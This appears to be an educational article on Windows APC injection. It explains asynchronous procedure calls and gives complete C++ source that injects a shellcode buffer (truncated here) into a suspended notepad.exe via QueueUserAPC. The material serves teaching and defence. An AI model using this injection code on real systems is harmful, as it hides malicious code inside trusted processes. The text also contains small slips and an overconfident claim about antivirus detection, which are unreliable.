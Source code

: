 :orphan:
(malware-injection-techniques-apc-injection)=

# Malware Injection Techniques: APC injection

APC injection is a type of malware that inserts code into a process by using the system's asynchronous procedure call (APC) queue. This type of malware is difficult to detect because it doesn't create any new processes or files. Instead, it modifies existing ones. APC injection can be used to install other types of malware, such as keyloggers and remote access tools. It can also be used to disable security features, such as antivirus software.

## APC

_Asynchronous Procedure Calls (APCs)_ permit user programs and system code to execute within the context of a specific user thread (and hence a particular process address space).

APC procedures can acquire resources (objects), wait for object handles, experience page faults, and invoke system services.

APCs are described by an APC object, which is a kernel control object. APCs awaiting execution reside in a queue managed by the kernel.

In contrast to the system-wide DPC queue, the APC queue is thread-specific; each thread has its own APC queue. When instructed to queue an APC, the kernel inserts it into the thread's queue that will execute the APC routine. The kernel then requests a software interrupt at APC level, and when the thread begins running, the APC is executed.

APCs come in two varieties: kernel mode and user mode. Kernel-mode APCs can run in the context of a target thread without permission, whereas user-mode APCs require permission.
Kernel-p mode APCs interrupt a thread and execute a procedure without the thread's knowledge or permission.

In addition, there are two types of kernel-mode APCs: regular and special. Special APCs execute at the APC level and permit the APC routine to alter certain APC parameters. Normal APCs execute at passive level and receive the modified parameters (or the original parameters, if they were not modified) from the special APC routine.

The executive uses kernel-mode APCs to complete operating system tasks within the address space (in the context) of a specific thread. It can use kernel-mode APCs to instruct a thread to stop executing an interruptible system service or to record the results of an asynchronous I/O operation in a thread's address space.

Environment subsystems use kernel-mode APCs to suspend or terminate a thread, as well as to retrieve or set its user-mode execution context. The Subsystem for UNIX Applications emulates the delivery of UNIX signals to Subsystem for UNIX Application processes using kernel-mode APCs.

Another significant application of kernel-mode APCs is thread suspension and termination. Due to the fact that these operations can be initiated from arbitrary threads and directed to arbitrary threads, the kernel uses an APC to query the thread context and terminate the thread. ­Device drivers frequently block APCs or enter a critical or guarded region to prevent these operations from occurring while they are holding a lock; otherwise, the lock may never be released, resulting in a system hang.

Several Windows APIs employ user-mode APCs, including `ReadFileEx`, `WriteFileEx`, and `QueueUserAPC`.

The `ReadFileEx` and `WriteFileEx` functions, for instance, allow the caller to specify a completion routine that will be invoked when the I/O operation completes. Implementing I/O completion by queuing an APC for the thread that issued the I/O.
Nevertheless, the callback to the completion routine does not necessarily occur when the APC is queued because user-mode APCs are only delivered to a thread when it is in an alertable wait state.

A thread may enter a wait state either by waiting for an object handle and indicating that its wait is alertable (using the Windows `WaitForMultipleObjectsEx` function) or by directly testing whether it has a pending APC (using SleepEx).
If a user-mode APC is pending in either scenario, the kernel interrupts (alerts) the thread, transfers control to the APC routine, and resumes the thread's execution once the APC routine completes.

User-mode APCs execute at passive level, as opposed to kernel-mode APCs which can execute at APC level.

## APC injection

Asynchronous Procedure Calls (APC) are utilized by malware to force legitimate threads to execute their malicious code. This is possible by attaching their code to the target thread's APC Queue. When a thread enters an alterable state, it is associated with a queue of APCs that await execution.

Our malicious program creates a new legitimate process initially:

```cpp
// Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
```

Then, memory for the payload is allocated in the memory space of the newly created process:

```cpp
// allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

Then, writing payload:

```cpp
  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);
```

APC is queued for the main thread, which is in a suspended state at the moment, then resume to suspended thread:

```cpp
  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

```

Full source code example:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload
unsigned char my_payload[] = "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41...";

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

Source code provided for educational and research purposes

## Example

This diagram depicts the disassembly of the _Amanahe malware_.
It begins by invoking the `OpenThread` function to obtain a handle on a different thread. To inject its DLL into another thread, it calls `QueueUserAPC` with a pointer to `LoadLibraryA`.

![example](images/apc-injection.png)

## Conclusion

This technique was identified in 2018 or earlier, so you can rest assured that AV / EDR software can easily detect it.

## References

- [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)
- [ATT&CK MITRE: APC injection](https://attack.mitre.org/techniques/T1055/004/)
- [Early Bird code injection discovered](https://www.cyberbit.com/blog/endpoint-security/new-early-bird-code-injection-technique-discovered/)

:::{seealso}
Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html)
:::
